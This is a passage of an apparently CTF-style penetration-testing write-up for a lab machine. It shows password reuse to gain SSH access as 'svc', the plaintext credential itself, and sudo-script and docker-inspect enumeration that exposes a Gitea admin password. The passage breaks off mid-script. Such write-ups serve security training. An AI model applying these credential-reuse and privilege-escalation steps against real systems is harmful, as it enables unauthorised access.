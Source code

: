 - nothing much interesting in website for this user.(another use `administrator` is also present but we don't have access to it right now.)
  
<hr>
Let's check for ssh.

- target 1 : ssh login -> cody:jh1usoih2bkjaspwe92 ==> permission denied
- target 2 : ssh login -> svc:jh1usoih2bkjaspwe92  ==> logged in
    - thus creds for svc is svc:jh1usoih2bkjaspwe92

<hr>

- `sudo -l` -> (root) /usr/bin/python3 /opt/scripts/system-checkup.py *

- `sudo pyhton3 /opt/sccripts/system-checkup.py *`

```bash
-bash-5.1$ sudo /usr/bin/python3 /opt/scripts/system-checkup.py *
Usage: /opt/scripts/system-checkup.py <action> (arg1) (arg2)

     docker-ps     : List running docker containers
     docker-inspect : Inpect a certain docker container
     full-checkup  : Run a full system checkup
```
---
Running docker-ps
```bash
-bash-5.1$ sudo /usr/bin/python3 /opt/scripts/system-checkup.py docker-ps
CONTAINER ID   IMAGE                COMMAND                  CREATED         STATUS        PORTS                                             NAMES
960873171e2e   gitea/gitea:latest   "/usr/bin/entrypoint…"   19 months ago   Up 17 hours   127.0.0.1:3000->3000/tcp, 127.0.0.1:222->22/tcp   gitea
f84a6b33fb5a   mysql:8              "docker-entrypoint.s…"   19 months ago   Up 17 hours   127.0.0.1:3306->3306/tcp, 33060/tcp               mysql_db
```
-> two conatainers gitea and mysql_db are up.

---
Running docker-inspect
```bash
-bash-5.1$ sudo /usr/bin/python3 /opt/scripts/system-checkup.py docker-inspect
Usage: /opt/scripts/system-checkup.py docker-inspect <format> <container_name>
```

-> need to pass a format and container name as well. 

```bash
sudo /usr/bin/python3 /opt/scripts/system-checkup.py docker-inspect '{{json .}}' gitea | jq
```
![gitea admin password](https://raw.githubusercontent.com/cyb3ritic/images/refs/heads/master/htb/machines/busqueda/gitea_admin_pass.png)

- couldnot login to mysql with this credentials.
- try for administrator user in gitea.searcher.htb. -> successfully logged in
![loggedin as administrator](https://raw.githubusercontent.com/cyb3ritic/images/refs/heads/master/htb/machines/busqueda/loggedin_admin.png)

- In scripts repository, we can find system-checkup.py script whic could be run as sudo by us on the server.
```bash
#!/bin/bash
import subprocess
import sys

actions = ['full-checkup', 'docker-ps','docker-inspect']

def run_command(arg_list):
    r = subprocess.run(arg_list, capture_output=True)
    if r.stderr:
        output = r.stderr.decode()
    else:
```